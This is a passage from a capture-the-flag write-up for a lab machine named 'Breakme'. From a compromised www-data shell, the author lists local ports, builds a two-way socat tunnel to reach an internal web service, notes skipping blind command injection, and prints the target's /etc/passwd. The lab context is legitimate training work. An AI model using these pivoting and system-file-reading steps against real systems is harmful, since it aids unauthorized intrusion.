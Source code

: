 Pressed Enter again until I left the session.


## Port Forwarding 

I know now that I needed to port forward to access this web page so after playing around, I finally found that socat worked perfectly. 

Knowing that the webserver is running on 127.0.0.1:9999, we created our *socat* command as shown below. 

```bash
www-data@Breakme:/home/john$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9999          0.0.0.0:*               LISTEN      -  
```


**On the target machine**, set up the forwarding like this:
   
   ```bash
   socat TCP-LISTEN:5555,fork TCP:127.0.0.1:9999
   ```

This listens on port **5555** and forwards traffic to port **9999**.

 **On your local machine**, you can now connect to the target machine’s port **5555** to access the service. Run this on your local machine:

   ```bash
   socat TCP-LISTEN:9999,fork TCP:10.10.72.131:5555
   ```
 **Access the webpage** on your local machine by visiting:

   ```
   http://localhost:9999
   ```

---



![[Pasted image 20240920200103.png]]

Didn't feel like doing this so I moved on knowing that if a human made it, there is a flaw. It was really extensive and I felt too lazy to go through the pain of blind command injection.

Remember the /etc/passwd from ealier?: 


```bash
www-data@Breakme:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false
john:x:1002:1002:john wick,14,14,14:/home/john:/bin/bash
youcef:x:1000:1000:youcef,17,17,17:/home/youcef:/bin/bash
```
